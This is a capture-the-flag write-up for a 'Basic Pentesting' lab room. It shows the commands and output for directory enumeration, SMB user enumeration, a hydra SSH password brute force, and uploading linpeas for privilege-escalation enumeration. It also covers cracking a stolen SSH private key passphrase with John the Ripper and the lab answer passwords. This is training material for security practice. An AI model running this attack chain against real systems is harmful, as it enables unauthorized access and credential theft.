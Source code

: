 # Notes for the room "Basic Pentesting"

## Tasks 

### Task 1

What is the name of the hidden directory on the web server(enter name without /)?


Did a gobuster scan:
```
└─$ gobuster dir -u 10.10.57.76 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.57.76
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/28 04:17:42 Starting gobuster in directory enumeration mode
===============================================================
/development          (Status: 301) [Size: 316] [--> http://10.10.57.76/development/]
```

So the answer is:

```
development
```

What is the username?

First used enum4linux, command:

```
enum4linux -a 10.10.57.76 | tee enum4linux.txt
```

From there we got the users: 

```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

So the answer:

```
jan
```

What is the password?

So for the password we use hydra with this command:

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.57.76
```
NOTE: That from the nmap scan we could see that ssh was open so we specify ssh in hydra

The output:

```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-28 04:46:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.57.76:22/
[STATUS] 179.00 tries/min, 179 tries in 00:01h, 14344223 to do in 1335:36h, 16 active
[STATUS] 128.67 tries/min, 386 tries in 00:03h, 14344016 to do in 1858:02h, 16 active
[22][ssh] host: 10.10.57.76   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-28 04:52:57
```

So the answer is:

```
armando
```
Enumerate the machine to find any vectors for privilege escalation

For this we are transfering `linpeas.sh` to the box:

```
scp linpeas.sh jan@10.10.57.76:/dev/shm
```

NOTE: Transfering to `/dev/shm` beacuse its shared memory and is allowed.

So from the `linpeas.sh` we saw that the user `kay` had a ssh private key:

```
[+] Looking for ssl/ssh files
/home/kay/.ssh/authorized_keys                                                                                                                                                          
/home/kay/.ssh/id_rsa
/home/kay/.ssh/id_rsa.pub
Port 22
PermitRootLogin prohibit-password
PubkeyAuthentication yes
PermitEmptyPasswords no
ChallengeResponseAuthentication no
UsePAM yes
Possible private SSH keys were found!
/home/kay/.ssh/id_rsa

``` 

So copied the content of the key and used JohnTheRipper to crack the ssh-key password:

```
┌──(kali㉿kali)-[~/THM/rooms/Basic_Pentesting]
└─$ python /usr/share/john/ssh2john.py id_rsa > id_rsa_hash.txt                                                                                                    130 ⨯
                                                                                                                                                                         
┌──(kali㉿kali)-[~/THM/rooms/Basic_Pentesting]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2021-05-28 05:10) 0.2702g/s 3876Kp/s 3876Kc/s 3876KC/sa6_123..*7¡Vamos!
Session completed
```

Logged in with the password and used `cat` to get the content of the file `pass.bak` in the home folder:

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```